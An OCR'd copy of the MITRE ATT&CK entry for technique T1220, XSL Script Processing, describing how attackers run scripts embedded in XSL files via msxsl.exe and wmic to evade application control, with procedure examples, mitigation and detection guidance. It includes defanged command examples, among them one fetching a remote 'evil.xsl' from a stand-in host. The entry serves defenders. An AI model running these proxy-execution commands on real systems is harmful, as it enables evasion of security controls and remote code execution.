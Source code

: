 3/22/24, 3:46 PM XSL Script Processing, Technique T1220 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1220/ 1/4Thank you to Tidal Cyber and SOC Prime for becoming ATT&CK's ﬁrst Benefactors. To join the cohort, or learn more about this program visit our
Benefactors page.3/22/24, 3:46 PM XSL Script Processing, Technique T1220 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1220/ 2/4Home>Techniques>Enterprise>XSL Script Processing3/22/24, 3:46 PM XSL Script Processing, Technique T1220 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1220/ 3/4XSL Script Processing
Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL ﬁles. Extensible Stylesheet
Language (XSL) ﬁles are commonly used to describe the processing and rendering of data within XML ﬁles. To support complex operations,
the XSL standard includes support for embedded scripting in various languages. 
Adversaries may abuse this functionality to execute arbitrary ﬁles while potentially bypassing application control. Similar to Trusted
Developer Utilities Proxy Execution, the Microsoft common line transformation utility binary (msxsl.exe) can be installed and used to
execute malicious JavaScript embedded within local or remote (URL referenced) XSL ﬁles. Since msxsl.exe is not installed by default, an
adversary will likely need to package it with dropped ﬁles. Msxsl.exe takes two main arguments, an XML source ﬁle and an XSL
stylesheet. Since the XSL ﬁle is valid XML, the adversary may call the same XSL ﬁle twice. When using msxsl.exe adversaries may also give
the XML/XSL ﬁles an arbitrary ﬁle extension.
Command-line examples:
msxsl.exe customers[.]xml script[.]xsl
msxsl.exe script[.]xsl script[.]xsl
msxsl.exe script[.]jpeg script[.]jpeg
Another variation of this technique, dubbed "Squiblytwo", involves using Windows Management Instrumentation to invoke JScript or
VBScript within an XSL ﬁle. This technique can also execute local/remote scripts and, similar to its Regsvr32/ "Squiblydoo" counterpart,
leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in Windows Management Instrumentation provided they utilize
the /FORMAT switch.
Command-line examples:
Local File: wmic process list /FORMAT:evil[.]xsl
Remote File: wmic os get /FORMAT:"https[:]//example[.]com/evil[.]xsl"[1]
[2]
[3]
[4]
[5]
[3][5]
[6]
[5]
[5][6]
Version PermalinkID: T1220
Sub-techniques:  No sub-techniques

Tactic: Defense Evasion

Platforms: Windows

System Requirements: Microsoft Core XML Services (MSXML) or access to wmic.exe

Defense Bypassed: Anti-virus, Application Control, Digital Certiﬁcate Validation
Contributors: Avneet Singh; Casey Smith; Praetorian
Version: 1.2
Created: 17 October 2018
Last Modiﬁed: 05 May 20223/22/24, 3:46 PM XSL Script Processing, Technique T1220 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1220/ 4/4Procedure Examples
ID Name Description
S0373 Astaroth Astaroth executes embedded JScript or VBScript in an XSL stylesheet located on a remote domain. 
G0080 Cobalt Group Cobalt Group used msxsl.exe to bypass AppLocker and to invoke Jscript code from an XSL ﬁle.
G0126 Higaisa Higaisa used an XSL ﬁle to run VBScript code.
C0022 Operation Dream
JobDuring Operation Dream Job, Lazarus Group used a remote XSL script to download a Base64-encoded
DLL custom downloader.
Mitigations
ID Mitigation Description
M1038 Execution Prevention If msxsl.exe is unnecessary, then block its execution to prevent abuse by adversaries.
Detection
ID Data SourceData ComponentDetects
DS0011 Module Module Load Monitor DLL/PE ﬁle events, speciﬁcally creation of these binary ﬁles as well as the loading of
DLLs into processes. Look for DLLs that are not recognized or not normally loaded into a
process.
DS0009 Process Process
CreationUse process monitoring to monitor the execution and arguments of msxsl.exe and wmic.exe. 
 Command arguments used before and after the script invocation may also be useful in
determining the origin and purpose of the payload being loaded. The presence of msxsl.exe or
other utilities that enable proxy execution that are typically used for development, debugging,
and reverse engineering on a system that is not used for these purposes may be suspicious.
References[7]
[8]
[9]
[10]
[6]
[11]
1. Wenzel, M. et al. (2017, March 30). XSLT Stylesheet Scripting
Using . Retrieved July 3, 2018.
2. Microsoft. (n.d.). Command Line Transformation Utility
(msxsl.exe). Retrieved July 3, 2018.
3. netbiosX. (2017, July 6). AppLocker Bypass – MSXSL.
Retrieved July 3, 2018.
4. Admin. (2018, March 2). Spear-phishing campaign leveraging
on MSXSL. Retrieved July 3, 2018.
5. Singh, A. (2019, March 14). MSXSL.EXE and WMIC.EXE — A
Way to Proxy Code Execution. Retrieved August 2, 2019.
. LOLBAS. (n.d.). Wmic.exe. Retrieved July 31, 2019.7. Salem, E. (2019, February 13). ASTAROTH MALWARE USES
LEGITIMATE OS AND ANTIVIRUS PROCESSES TO STEAL
PASSWORDS AND PERSONAL DATA. Retrieved April 17, 2019.
. Svajcer, V. (2018, July 31). Multiple Cobalt Personality
Disorder. Retrieved September 5, 2018.
9. PT ESC Threat Intelligence. (2020, June 4). COVID-19 and New
Year greetings: an investigation into the tools and methods
used by the Higaisa group. Retrieved March 2, 2021.
10. Breitenbacher, D and Osis, K. (2020, June 17). OPERATION
IN(TER)CEPTION: Targeted Attacks Against European
Aerospace and Military Companies. Retrieved December 20,
2021.
11. Desimone, J. (2018, April 18). Status Update. Retrieved July 3,
2018.
